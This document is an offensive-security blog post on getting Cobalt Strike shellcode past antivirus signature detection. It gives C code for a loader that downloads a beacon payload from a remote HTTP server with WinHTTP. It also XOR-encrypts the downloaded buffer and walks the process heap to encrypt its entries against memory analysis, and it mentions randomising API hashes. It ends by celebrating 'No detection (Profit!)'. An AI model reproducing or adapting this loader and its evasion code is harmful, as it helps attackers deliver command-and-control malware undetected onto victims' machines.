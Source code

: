 ```yaml
---
title: Shellcodes are dead, long live Fileless Shellcodes
updated: 2023-02-05 22:07
---
```


Recently I was developing a simple Shellcode Loader which uses Callbacks as an alternative of Shellcode execution. While it bypasses every runtime scanning, it failed to bypass the signature detection. So I fired up [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck) to identify the bad bytes:

![bad_bytes_threatcheck](https://cdn-images-1.medium.com/max/800/1*KwJR9m_Ua3ujyGbK4GcSTw.png)

At a first glance, it is impossible to understand what exactly is getting detected so I fired up [GHidra](https://ghidra-sre.org/) to manually identify these bad bytes. I simply copied a random pattern from the ThreadCheck (**00 1F CC 07 00 15 CC 07**) and tried searching in the memeory of the compiled EXE of the malware.

![ghidra_in_action](https://cdn-images-1.medium.com/max/800/1*UroW7mIted_uXKaqoQ20og.png)

This is clearly the XORed Shellcode I implemented to my Shellcode Loader and it's getting detected as a Cobalt Strike agent by Defender. Seems like the XOR encryption routine is not strong enough againts static detection and that got me thinking: are stored shellcodes really dead (especially the ones generated from Cobalt Strike)?
I wouldn't be suprised, as currently Cobalt Strike is [the most popular C2 framework](https://twitter.com/teamcymru_S2/status/1604091964386705409?s=20) among threat actors, but something must be done to make the Shellcode great and undetectable again.

## RAW Shellcodes: What's wrong with them?

Cobalt Strike’s payloads are based on Meterpreter shellcodes and include many similarities (sometimes identical) API hashing ([x86](https://github.com/rapid7/metasploit-framework/blob/04e8752b9b74cbaad7cb0ea6129c90e3172580a2/external/source/shellcode/windows/x86/src/block/block_api.asm) and [x64](https://github.com/rapid7/metasploit-framework/blob/04e8752b9b74cbaad7cb0ea6129c90e3172580a2/external/source/shellcode/windows/x64/src/block/block_api.asm) versions).

The [default Hashes]() that Cobalt Strike uses are highly signatured; we can get a workaround to such hashes by performing a [dynamic Hash encoding](https://www.huntress.com/blog/hackers-no-hashing-randomizing-api-hashes-to-evade-cobalt-strike-shellcode-detection). If you look at the image below, the hash value `0xa779563a` is the default hash of **InternetOpenA**. If you simply google the hash, everything related to Metaploit will show up, so this hash is known to be mostly used by Cobalt Strike beacons and Meterpreter agents. Applying ror13 hashing to such hashes will drastically reduce the detection by AV vendors (to almost 0). As this is already nicely explain on [this article](https://www.huntress.com/blog/hackers-no-hashing-randomizing-api-hashes-to-evade-cobalt-strike-shellcode-detection), I'm not going to explain it much further, but the photo below gives the idea of the final result after encoding the hashes. 

![cs_hashes](https://cdn-images-1.medium.com/max/800/1*B6Q4LXM_BP9fMW4ceu_3Lg.png)

## Fileless Shellcode to the rescue

Although it is not a new thing, fileless shellcodes are a good way of avoiding signature detection is by retrieving a shellcode from the internet. This way you will solve the problem of large entropy and any possible signature detection.
On the photo below, there is a comparison between a traditional XORed encrypted shellcode and our fileless shellcode loader. Since the shellcode doesn't have to be stored on .text section, the entropy will descrease drastically (remember that ):

![entropy_comparison](https://cdn-images-1.medium.com/max/800/1*5KjsCjd7bwYLlqjf-CGB2A.png)

The full source code can be found [here](https://github.com/kleiton0x00/RemoteShellcodeExec/), but on this article I will try to break down the code for the sake of understanding.

In order to request the shellcode from the HTTP Server, I will be using  `winhttp` library. Alternatively you can use sockets, based on some researches it might be a better solution which might results on lower runtime detection. The code below is a basic one (it's shorten for understanding purposes) for requesting and retrieving the HTTP Response body of the request (which is the raw shellcode), which basically is going to be stored on a vectored array:

```c
    // Initialize WinHTTP 
    hInternet = WinHttpOpen(NULL, WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
    printf("[+] WinHTTP initialized\n");

    // Connect to the HTTP server 
    hHttpSession = WinHttpConnect(hInternet, L"192.168.0.60", 80, 0); //192.168.0.60:8081
    printf("[+] Connected to HTTP Server\n");

    // Open an HTTP request 
    hHttpRequest = WinHttpOpenRequest(hHttpSession, L"GET", L"/beacon.bin", NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, 0);
    printf("[+] Sending HTTP GET Request\n");

    // Send a request 
    bResults = WinHttpSendRequest(hHttpRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0);
    printf("[+] WinHTTP request sent\n");

    // Wait for the response 
    bResults = WinHttpReceiveResponse(hHttpRequest, NULL);
    printf("[+] Response retrieved\n");

    do
    {
        dwSize = 0;
        if (!WinHttpQueryDataAvailable(hHttpRequest, &dwSize))
        {
            printf("Error %u in WinHttpQueryDataAvailable.\n", GetLastError());
        }

        // Allocate space for the buffer.
        pszOutBuffer = new char[dwSize + 1];

        // No more available data 
        if (!pszOutBuffer) {
            printf("[-] No more available data");
            dwSize = 0;
        }

        // Read the Data.
        ZeroMemory(pszOutBuffer, dwSize + 1);

        if (!WinHttpReadData(hHttpRequest, (LPVOID)pszOutBuffer,
            dwSize, &dwDownloaded))
            printf("Error %u in WinHttpReadData.\n", GetLastError());
        else
            PEbuf.insert(PEbuf.end(), pszOutBuffer, pszOutBuffer + dwDownloaded);

    } while (dwSize > 0);


    char* PE = (char*)malloc(PEbuf.size());
    for (int i = 0; i < PEbuf.size(); i++) {
        PE[i] = PEbuf[i];
    }

    // Close the HTTP request 
    WinHttpCloseHandle(hHttpRequest);

    // Close the session 
    WinHttpCloseHandle(hHttpSession);

    // Cleanup 
    WinHttpCloseHandle(hInternet);
```

## There is always place for encryption

Notice the following part:

```c
    char* PE = (char*)malloc(PEbuf.size());
    for (int i = 0; i < PEbuf.size(); i++) {
        PE[i] = PEbuf[i];
    }
```

The shellcode retrieve from the teamserver is stored in the heap, making it easy for the blue-team to analyze the heap and discover what's inside (clearly our unencrypted shellcode):

![shellcode_written_in_memory](https://cdn-images-1.medium.com/max/800/1*UVRHyvNkqqNV5H6kdcNSHA.png)

Additionally, encrypting the shellcode in Heap is always a better idea:

```c
    char* PE = (char*)malloc(PEbuffer.size());
    for (int i = 0; i < PEbuf.size(); i++) {
        PE[i] = PEbuffer[i] ^ 0x7e; //XOR encrypted
    }

    XOR(PE, PEbuffer.size(), key);
```

Where **XOR** is a basic function which decrypts the array: 
```c
void XOR(char* data, int len, unsigned char key) {
    int i;
    for (i = 0; i < len; i++)
        data[i] ^= key;
}
```

## Protect the heap at all cost

Encrypting the heap is a good idea because it protects sensitive data that could be stored in the heap. This is especially important when a program is running in an untrusted environment, as any data stored in the heap could be analyzed by a malware analyser.

```c
// Encryption Key
const char key[2] = "A";
size_t keySize = sizeof(key);

void xor_bidirectional_encode(const char* key, const size_t keyLength, char* buffer, const size_t length) {
    for (size_t i = 0; i < length; ++i) {
        buffer[i] ^= key[i % keyLength];
    }
}

PROCESS_HEAP_ENTRY entry;
void HeapEncryptDecrypt() {
    SecureZeroMemory(&entry, sizeof(entry));
    while (HeapWalk(GetProcessHeap(), &entry)) {
        if ((entry.wFlags & PROCESS_HEAP_ENTRY_BUSY) != 0) {
            xor_bidirectional_encode(key, keySize, (char*)(entry.lpData), entry.cbData);
        }
    }
}
```

The **HeapWalk()** function is used to iterate through each heap entry in the process heap, and it is used to check whether the entry is busy. If it is busy, the xor_bidirectional_encode() function is used to encrypt and decrypt the entry. This is done by using the XOR operation to encrypt and decrypt the data.

## Profit

1. Entropy is drastically reduced.
2. Heap is protected
3. No detection (Profit!)

<video src="https://i.imgur.com/U8LjkcA.mp4" controls="controls"></video>
